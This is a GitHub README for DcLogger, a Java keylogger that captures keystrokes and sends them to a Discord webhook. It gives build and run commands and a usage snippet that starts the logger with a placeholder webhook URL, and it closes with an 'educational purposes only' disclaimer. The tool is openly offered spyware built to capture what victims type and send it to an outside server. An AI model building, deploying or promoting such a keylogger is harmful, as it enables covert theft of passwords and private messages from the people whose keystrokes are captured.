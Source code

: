 <h1 align="center">DcLogger</h1>

<p align="center">A simple key logger application which sends the keys to a discord webhook implemented in Java.</p>

<div align="center">
    <a href="https://discord.gg/5UmsQP4MFH"><img src="https://img.shields.io/discord/610120595765723137?logo=discord" alt="Discord"/></a>
    <br><br>
    <img src="https://img.shields.io/github/last-commit/Lyzev/DcLogger" alt="GitHub last commit"/>
    <img src="https://img.shields.io/github/commit-activity/w/Lyzev/DcLogger" alt="GitHub commit activity"/>
    <br>
    <img src="https://img.shields.io/github/languages/code-size/Lyzev/DcLogger" alt="GitHub code size in bytes"/>
    <img src="https://img.shields.io/github/contributors/Lyzev/DcLogger" alt="GitHub contributors"/>
</div>

## Usage

### How to Build and Run Project
Build project: 
```bash
mvn package
```
Run ./target/DcLogger-jar-with-dependencies.jar file using command:
```bash
java -jar ./target/DcLogger-jar-with-dependencies.jar
```
The keys will be sent to the provided webhook.

### Example
```java
/**
 * This is an example on how to use {@link KeyLogger}.
 *
 * @throws MalformedURLException the exception is going to be thrown if the url is incorrect
 */
public static void main(String[] args) throws MalformedURLException {
    KeyLogger logger = new KeyLogger("WEBHOOK-URL"); // Declares and initializes the keylogger
    logger.start(); // Registers the NativeLogger (If it isn't registered the event will not be called, so nothing would be logged)
}
```

## Bugs and Suggestions
Bug reports and suggestions should be made in this repo's [issue tracker](https://github.com/Lyzev/DcLogger/issues) using the templates provided. Please provide as much information as you can to best help us understand your issue and give a better chance of it being resolved.

## Important
Please note, this repository is for educational purposes only. No contributors, major or minor, are to fault for any actions done by this program.

## Credits
* [vakho10](https://github.com/vakho10) for [java-keylogger](https://github.com/vakho10/java-keylogger)
